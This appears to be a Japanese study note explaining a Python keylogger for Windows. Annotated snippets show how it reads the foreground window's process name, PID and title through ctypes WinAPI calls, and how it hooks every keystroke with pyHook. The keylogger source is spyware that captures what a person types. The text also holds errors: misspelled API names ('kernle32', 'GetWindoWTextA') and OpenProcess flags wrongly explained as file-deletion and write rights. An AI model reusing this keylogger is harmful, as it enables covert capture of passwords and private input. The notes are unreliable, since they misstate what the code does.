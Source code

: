 # キーロガー(for Windows)

# KeyLoggerクラスのメソッドget_current_process

このメソッドは、そのキーログを得たタイミングでのプロセス名、プロセスID、その時点でアクティブだったウィンドウのタイトルを同時に表示してくれる。

それを実現するためにctypesモジュールでWindowsAPIを利用してるから少々難しい。

大まかな流れは

`GetForegroundWindow`でそのタイミングでのアクティビティウィンドウのウィンドウハンドルを取得

↓

`GetWindowThreadProcessId`でプロセスID取得

↓

`OpenProcess`でプロセスハンドル取得

↓

`GetModuleBaseNameA`でプロセス名を取得

↓

`GetWindowTextA`でウィンドウのタイトルバー（ウィンドウのタイトルを得るため）を取得

- ウィンドウハンドル…コンピュータがウィンドウを識別するための管理番号
- プロセスハンドル…プロセスを識別するための管理番号（プロセスをWindowsAPI経由で操作する時のもの）
- プロセスID…システム内でプロセスを識別するための各プロセス固有のID

参考：https://maku77.github.io/windows/winapi/process-handle.html

```python
hwnd = windll.user32.GetForegroundWindow()
pid = c_ulong(0)
windll.user32.GetWindowThreadProcessId(hwnd, byref(pid))
process_id = f'{pid.value}'                
```

`hwnd`がウィンドウハンドル。

`pid`はunsigned longのサイズ0で用意しておく。

`GetWindowThreadProcessId`には、「ウィンドウハンドル」と「プロセスIDを受け取る変数へのポインタ」の二つを指定。

`byref`はポインタのこと。このために`pid`はサイズ0で初期化しておいた。

これで変数`pid`にプロセスIDがコピーされた。

```python
executable = create_string_buffer(512)
h_process = windll.kernle32.OpenProcess(0x400 | 0x10, False, pid)
windll.psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
```

`executable`は可変長の文字バッファ。

`OpenProcess`には、アクセス権とプロセスIDを指定してプロセスハンドルを取得。

`0x40`はディレクトリの場合、ディレクトリとそれに含まれるすべてのファイル (読み取り専用ファイルを含む) を削除する権限。

`0x10`は書き込み権限。（パイプ記号（`|`）は「または」の意味）

参考：[ファイル アクセス権限定数](https://docs.microsoft.com/ja-jp/windows/win32/fileio/file-access-rights-constants)

```python
windll.psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
```

これでプロセス名を取得している。

もっと言うと、用意しておいたバッファ`executable`にプロセス名を格納してる。

```python
window_title = create_string_buffer(512)
windll.user32.GetWindoWTextA(hwnd, byref(window_title), 512)
```

`window_title`というバッファを用意。

`GetWindowTextA`の第一引数で指定したウィンドウハンドル、に対するウィンドウのタイトルバーを第二引数で指定したバッファに格納する。


# run関数について

```python
def run():
    save_stdout = sys.stdout
    sys.stdout = StringIO()

    kl = KeyLogger()
    hm = pyHook.HookManager()
    hm.KeyDown = kl.mykeystroke
    hm.HookKeyboard()
        
    while time.thread_time() < TIMEOUT:
        pythoncom.PumpWaitingMessages()
        
    log = sys.stdout.getvalue()
    sys.stdout = save_stdout
    return log
```

最初の方にあるのが標準出力の取り扱い。

`sys.stdout`を一旦`save_stdout`に待避させ、`StringIO()`を`sys.stdout`に代入することで標準出力をファイルライク（file-like）に扱える。

だから最後の方で`sys.stdout`に対して`getvale()`関数（これはファイルの中身を全て取り出す関数）を適用して標準出力を得ることができている。

`save_stdout`に待避させておいたのを`sys.stdout`に代入して元通り。

```python
kl = KeyLogger()
hm = pyHook.HookManager()
hm.KeyDown = kl.mykeystroke
hm.HookKeyboard()
```

１行目で`HookManager`オブジェクトを作る。

`KeyDown`にコールバック関数として`KeyLogger`クラスの`mykeystroke`メソッドを指定。

`HookKeyboard()`で全ての打鍵を監視・フックする。

正直ここは`pyHook`のお決まり文句と考えていいと思う。

```python
while time.thread_time() < TIMEOUT:
   pythoncom.PumpWaitingMessages()
```

`time.thread_time`は、現在のスレッドにおけるシステムとCPU稼働の合計時間。

`pythoncom.PumpWaitingMessages()`で現在のスレッドのメッセージを全て吐き出す。

